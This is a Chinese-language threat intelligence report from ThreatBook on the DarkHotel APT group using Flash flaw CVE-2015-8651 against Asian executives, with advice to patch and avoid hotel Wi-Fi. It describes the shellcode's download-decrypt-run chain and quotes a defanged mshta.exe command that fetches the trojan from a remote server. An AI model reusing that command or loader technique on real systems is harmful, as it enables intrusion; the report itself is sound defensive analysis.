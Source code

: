 # 境外“暗黑客栈”组织对国内企业高管发起APT攻击

> 当你启程前往伊萨卡，但愿你的道路漫长，充满奇迹，充满发现——卡瓦菲斯 希腊  
> 以此纪念2015，即将逝去的中国威胁情报元年。

**Author:ThreatBook**

0x00 摘要
=======

* * *

Adobe于12月28日发布了一个应急补丁用于修复Flash 播放器的多个安全漏洞。有线索表明其中之一已被用于APT(高级可持续性)攻击，国外有媒体揣测其攻击目标为国内某著名IT企业（[http://www.theregister.co.uk/2015/12/28/adobe_flash_security_update/](http://www.theregister.co.uk/2015/12/28/adobe_flash_security_update/)），微步在线尚未发现任何证据支持此结论。但溯源分析表明确有境外黑客团伙利用此漏洞针对中国及亚洲企业的高管发起APT攻击，此团伙即代号为暗黑客栈（DarkHotel） 的APT攻击组织。现阶段尚不确定此攻击是否有更复杂的背景。微步在线已第一时间向客户发送预警。

我们建议企业高管们立即采取以下措施：

1.  立即升级Flash播放器；
2.  不要点击陌生邮件的附件或链接；
3.  连接酒店WIFI请慎重，收发敏感信息可用移动通信网络。

![p1](http://drops.javaweb.org/uploads/images/32ed02bdb74576b4a5fe8c185bc8a9c8a0331e87.jpg)

0x01 威胁事件分析
===========

* * *

在Adobe于12月28日发布的19个安全漏洞的应急（OOB）补丁中，CVE-2015-8651 被Adobe 标注为已用于APT攻击。微步在线通过对多宗活跃APT威胁事件的跟踪及对CVE-2015-8651攻击的分析，确定了攻击流及攻击者身份。

通过对捕获的可疑SWF文件进行分析，确认此样本利用了Adobe Flash整数溢出漏洞 (即此次Adobe修复的CVE-2015-8651漏洞)。受攻击者访问此SWF文件后，漏洞利用成功会跳转到下面这段shellcode:

![p2](http://drops.javaweb.org/uploads/images/da792b1d6e4d4d564d0bccdc06b0cacb0067f642.jpg)

其主要功能是下载一个名为update.exe 的文件到系统`的%temp%`目录下， 通过RC4解密并且通过ECHO加可执行文件的“MZ”头来构建有效的PE文件，然后运行。

![p3](http://drops.javaweb.org/uploads/images/f7963cdfb6a7748b3c22ed6757a033778446240f.jpg)

Update.exe约1.3Mb, 具有完整的文件属性，伪装成SSH密钥生成工具：

![p4](http://drops.javaweb.org/uploads/images/672a2b5e07b085096775c305bf19ce1a2be0e347.jpg)

通过逆向分析发现，木马作者篡改和裁剪了正常的OpenSSL文件，篡改后的版本只提供一个参数：`-genkeypair`。无论是否传递此参数，木马文件都会首先释放一个公钥在当前目录用于干扰判断，同时进入真正的恶意代码部分。此样本未进行代码混淆，但是采用了多种反调试/反虚拟机技术及字段加密，通过检测各种系统环境来判断是否有反病毒软件及沙箱存在，比如：

![p5](http://drops.javaweb.org/uploads/images/1c169c9c54bcacf62a6d1c2abba362debe68f7d0.jpg)

Update.exe是一个Trojan Downloader， 利用执行mshta.exe 来下载木马文件，木马文件服务器位于冰岛。形式如下：

`C:\Windows\system32\mshta.exe hxxp://****.com/image/read.php…..`

0x02 攻击团伙分析
===========

* * *

随着对此攻击事件的目标、工具、手法和过程更详细的分析，我们发现其特点和暗黑客栈（Darkhotel）有着非常惊人的一致。

暗黑客栈（Darkhotel）APT攻击团伙的踪迹最早可以追溯到2007年，其从2010年开始更多的利用企业高管在商业旅行中访问酒店网络的时机，进行APT攻击来窃取信息。因此在2014年卡巴斯基发布针对此团队的研究报告时，将其命名为“Darkhotel”。此团伙攻击目标集中在亚太地区开展业务和投资的企业高管（如：CEO、SVP、高管及高级研发人员），攻击的行业包括大型电子制造和通信、投资、国防工业、汽车等。

此团队使用零日漏洞（特别是Flash类型）来进行攻击，并规避最新的防御措施，同时也会盗窃合法的数字证书为后门软件及监听工具进行签名。如果有一个目标已经被有效感染，往往就会从作案点删除他们的工具，进而隐藏自己的活动踪迹。从其行动特点看，具有极高的技术能力及充沛的资源。

我们对此次事件和暗黑客栈（Darkhotel）的特点进行了对比，认为有充足理由认定其就是始作俑者。

![p6](http://drops.javaweb.org/uploads/images/83dbb3eb20ce0459234cebd5fde8e7e23218918e.jpg)

0x03 小结
=======

* * *

通过此事件，我们再次认识到在万物互联的年代，单纯基于漏洞的防御往往是防不胜防。只要有足够的价值，黑客就有足够的投入和机会攻陷目标。我们需要及时的调整防御思路，平衡安全投入，更多的聚焦威胁，以威胁情报驱动安全体系建设，建立防御、检测、响应及预防一套完整的安全自适应过程。